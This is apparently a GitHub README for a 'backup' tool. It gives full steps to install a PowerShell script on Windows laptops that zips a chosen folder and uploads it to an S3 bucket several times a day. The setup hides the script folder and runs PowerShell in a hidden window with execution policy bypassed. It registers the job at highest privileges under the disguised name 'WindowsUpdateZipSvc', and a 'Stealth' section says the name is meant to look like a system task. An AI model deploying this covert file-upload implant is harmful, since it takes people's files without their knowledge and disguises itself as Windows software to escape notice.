 # Maksiti Backups — README

## 1) AWS (once)
- Create IAM user: **`backup-user`** (programmatic access only).
- Attach policy granting access **only** to bucket **`arbrim-backups-test`** (ListBucket, Put/Get/DeleteObject).
- Save the access key CSV.

> (Optional) As an admin, add an S3 **Lifecycle rule** to expire `zips/` after 7 days (CLI step below).

---

## 2) Windows setup (per laptop)

### 2.1 Install & configure AWS CLI
Download and install:  
`https://awscli.amazonaws.com/AWSCLIV2.msi`

Verify:
```powershell
aws --version
```

Configure:
```powershell
aws configure
```
Use:
```
Access Key ID: <from backup-user CSV>
Secret Access Key: <from backup-user CSV>
Default region: eu-central-1
Output format: json
```

### 2.2 Create hidden script folder (user-writable; no admin needed)
```powershell
New-Item -ItemType Directory -Path "C:\Users\<USER>\AppData\Local\SystemUpdate" -Force | Out-Null
attrib +h "C:\Users\<USER>\AppData\Local\SystemUpdate"
```

### 2.3 Pick backup source and S3 layout
```
Local folder to back up (edit per machine):
C:\Users\<USER>\Desktop\maksitest

S3 bucket:
arbrim-backups-test

Zips stored under (auto by script):
s3://arbrim-backups-test/zips/<COMPUTER>/
```

### 2.4 Save the PowerShell script
Path:
```
C:\Users\<USER>\AppData\Local\SystemUpdate\WinZipBackup.ps1
```

Content:
```powershell
# --- EDIT THESE TWO PER MACHINE ---
$SrcPath = "C:\Users\<USER>\Desktop\maksitest"   # Folder to back up
$Bucket  = "arbrim-backups-test"                     # S3 bucket
# ----------------------------------

$Computer  = $env:COMPUTERNAME
$UserName  = $env:USERNAME
$Stamp     = (Get-Date).ToString("yyyy-MM-dd_HH-mm")
$Prefix    = "zips/$Computer"
$ZipName   = "${Computer}-${UserName}_${Stamp}.zip"
$TempZip   = Join-Path $env:TEMP $ZipName

if (-not (Test-Path $SrcPath)) { exit 0 }

try {
    if (Test-Path $TempZip) { Remove-Item $TempZip -Force -ErrorAction SilentlyContinue }
    Compress-Archive -Path $SrcPath -DestinationPath $TempZip -CompressionLevel Optimal -Force
} catch { exit 0 }

$S3Key = "$Prefix/$ZipName"
$null = aws s3 cp "$TempZip" "s3://$Bucket/$S3Key" --sse AES256 2>$null
Remove-Item $TempZip -Force -ErrorAction SilentlyContinue

```

### 2.5 Schedule it (silent run at multipletimes)
```powershell
$action = New-ScheduledTaskAction -Execute 'powershell.exe' -Argument '-NoLogo -NonInteractive -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\Users\arbri\AppData\Local\SystemUpdate\WinZipBackup.ps1'

$trigs = @(
    (New-ScheduledTaskTrigger -Daily -At (Get-Date "11:00")),
    (New-ScheduledTaskTrigger -Daily -At (Get-Date "13:00")),
    (New-ScheduledTaskTrigger -Daily -At (Get-Date "15:00"))
)

$settings = New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries

# Register with highest privileges under your user
Register-ScheduledTask -TaskName 'WindowsUpdateZipSvc' -Action $action -Trigger $trigs -Settings $settings -RunLevel Highest -User 'arbri'
```

Verify it worked
```
schtasks /Query /TN "WindowsUpdateZipSvc" /V /FO LIST
```
Test it without waiting
```
schtasks /Run /TN "WindowsUpdateZipSvc"
```
---


## 4) Restore & notes

**Restore:** download the desired zip from  
`s3://arbrim-backups-test/zips/<COMPUTER>/<COMPUTER>-<USER>_YYYY-MM-DD_HH-mm.zip`  
and unzip.

**Scale to more laptops:** copy `WinZipBackup.ps1`, edit only `$SrcPath`, run the same `schtasks` command (path includes the user’s profile). Lifecycle rule applies to all machines automatically.

**Stealth:** script runs with hidden PowerShell; folder is hidden; task name looks system-ish.

Verify task is configured daily
```
schtasks /Query /TN "WindowsUpdateZipSvc" /V /FO LIST
```

## 5) Enable disable script
Pause
```
Disable-ScheduledTask -TaskName 'WindowsUpdateZipSvc'
```
Resume
```
Enable-ScheduledTask  -TaskName 'WindowsUpdateZipSvc'
```
